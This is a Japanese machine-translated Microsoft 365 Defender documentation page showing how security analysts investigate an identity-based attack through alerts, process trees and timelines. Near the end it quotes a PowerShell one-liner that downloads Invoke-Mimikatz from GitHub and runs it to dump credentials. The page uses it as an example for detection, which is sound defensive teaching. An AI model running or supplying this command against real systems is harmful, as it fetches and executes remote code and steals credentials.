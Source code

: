 ```yaml
---
title: ID ベースの攻撃の例
description: ID ベースの攻撃の分析例を説明します。
keywords: インシデント、アラート、調査、相関関係、攻撃、コンピューター、デバイス、ユーザー、ID、メールボックス、電子メール、365、microsoft、m365、インシデント対応、サイバー攻撃
search.product: eADQiWindows 10XVcnh
ms.prod: m365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
f1.keywords:
- NOCSH
ms.author: josephd
author: JoeDavies-MSFT
localization_priority: Normal
manager: dansimp
audience: ITPro
ms.collection:
- M365-security-compliance
- m365initiative-m365-defender
ms.topic: conceptual
search.appverid:
- MOE150
- MET150
ms.technology: m365d
ms.openlocfilehash: f0695f406bdc2063c58d87c61032d120442928e5
ms.sourcegitcommit: d08fe0282be75483608e96df4e6986d346e97180
ms.translationtype: MT
ms.contentlocale: ja-JP
ms.lasthandoff: 09/12/2021
ms.locfileid: "59192500"
---
```

# <a name="example-of-an-identity-based-attack"></a>ID ベースの攻撃の例

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]

**適用対象:**
- Microsoft 365 Defender

Microsoft Defender for Identity は、組織内の ID を侵害する悪意のある試みを検出するのに役立ちます。 Defender for Identity は Microsoft 365 Defender と統合されますので、セキュリティ アナリストは、Netlogon 特権昇格の疑いなど、Defender for Identity からの脅威を可視化できます。

## <a name="analyzing-the-attack-in-microsoft-defender-for-identity"></a>Microsoft Defender for Identity での攻撃の分析

Microsoft 365 Defenderアナリストは、[インシデント] ページの [アラート] タブで検出ソースによってアラートをフィルター処理できます。 次の例では、検出ソースは Defender for **Identity にフィルター処理されます**。 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png" alt-text="Defender for Identity の検出ソースをフィルター処理する例。":::

[疑わしいオーバーパス **-the ハッシュ** 攻撃] アラートを選択すると、詳細な情報を表示する Microsoft Cloud App Securityページに移動します。 [このアラートの種類の詳細] を選択して、攻撃の説明と修復の提案を読み[](/defender-for-identity/lateral-movement-alerts#suspected-overpass-the-hash-attack-kerberos-external-id-2002)取り、アラートや攻撃の詳細をいつでも確認できます。
 
:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-alert-example.png" alt-text="疑わしいオーバーパスのハッシュ攻撃アラートの例。"::: 

## <a name="investigating-the-same-attack-in-microsoft-defender-for-endpoint"></a>エンドポイント向け Microsoft Defender で同じ攻撃を調査する

または、分析者は Defender for Endpoint を使用して、エンドポイントでのアクティビティの詳細を確認できます。 インシデント キューからインシデントを選択し、[アラート] タブ **を選択** します。ここから、検出ソースも識別できます。 [エンドポイントの検出と応答] EDR検出ソースは、Defender for Endpoint です。 ここから、アナリストはユーザーが検出したアラートをEDR。

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png" alt-text="Defender for Endpoint のエンドポイント検出と応答の例。"::: 

アラート ページには、影響を受けたデバイス名、ユーザー名、自動調査の状態、アラートの詳細など、さまざまな関連情報が表示されます。 アラート ストーリーは、プロセス ツリーの視覚的な表現を示しています。 プロセス ツリーは、アラートに関連する親プロセスと子プロセスの階層的な表現です。

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png" alt-text="Defender for Endpoint のアラート プロセス ツリーの例。"::: 

各プロセスを展開して、追加の詳細を表示できます。 アナリストに表示される詳細は、悪意のあるスクリプト、送信接続 IP アドレス、その他の有用な情報の一部として入力された実際のコマンドです。

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-process-details.png" alt-text="Defender for Endpoint のプロセスの詳細の例。":::
 
[タイムラインで **表示] を選択** すると、アナリストはさらにドリルダウンして、侵害の正確な時刻を判断できます。 

Microsoft Defender for Endpoint では、多くの悪意のあるファイルとスクリプトを検出できます。 ただし、送信接続、PowerShell、およびコマンド ライン アクティビティの正当な使用が多いため、悪意のあるファイルまたはアクティビティが作成されるまで、一部のアクティビティは良性と見なされます。 そのため、タイムラインを使用すると、アナリストはアラートを周囲のアクティビティと関連付け、一般的なファイル システムとユーザー アクティビティによって見えなされない攻撃の元のソースまたは時間を特定できます。 

これを行うには、アナリストはアラート検出時 (赤色) から開始し、悪意のあるアクティビティに導かれた元のアクティビティが実際に開始された時期を判断するために、時間内に後方にスクロールします。 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-start-time.png" alt-text="アラート検出時の開始例。"::: 

Windows Update 接続、Windows 信頼できるソフトウェアライセンス認証トラフィック、Microsoft サイトへのその他の一般的な接続、サードパーティのインターネットアクティビティ、Microsoft Endpoint Configuration Manager アクティビティ、その他の良性アクティビティなどの一般的なアクティビティを疑わしいアクティビティと理解し、区別することが重要です。 これを実現する 1 つの方法は、タイムライン フィルターを使用する方法です。 アナリストが表示したくない項目をフィルター処理しながら、特定のアクティビティを強調表示できるフィルターが多数存在します。 

次の図では、アナリストがフィルター処理して、ネットワーク イベントとプロセス イベントのみを表示しました。 これにより、アナリストは、メモ帳が IP アドレスとの接続を確立したイベントを取り巻くネットワーク接続とプロセスを確認できます。これは、プロセス ツリーでも見ていました。 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-notepad.png" alt-text="悪意のある送信メモ帳接続を確立するために使用された方法の例。"::: 

この特定のイベントでは、悪意メモ帳送信接続を確立するために使用されたイベントです。 ただし、通常、攻撃者は iexplorer.exe を使用して悪意のあるペイロードをダウンロードする接続を確立します。通常、iexplorer.exeプロセスは通常の Web ブラウザーアクティビティと見なされます。

タイムラインで探すもう 1 つの項目は、PowerShell が送信接続に使用する場合です。 アナリストは、悪意のあるファイルをホストする Web サイトへの送信接続などのコマンドを使用して、PowerShell 接続の成功 `IEX (New-Object Net.Webclient)` を探します。 

次の例では、PowerShell を使用して Web サイトから Mimikatz をダウンロードして実行しました。

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```
アナリストは、検索バーにキーワードを入力して、PowerShell で作成されたイベントのみを表示することで、キーワードをすばやく検索できます。 

## <a name="next-step"></a>次の手順

フィッシング調査 [パスを](first-incident-path-phishing.md) 参照してください。

## <a name="see-also"></a>関連項目

- [インシデントの概要](incidents-overview.md)
- [インシデントの管理](manage-incidents.md)
- [インシデントの調査](investigate-incidents.md)
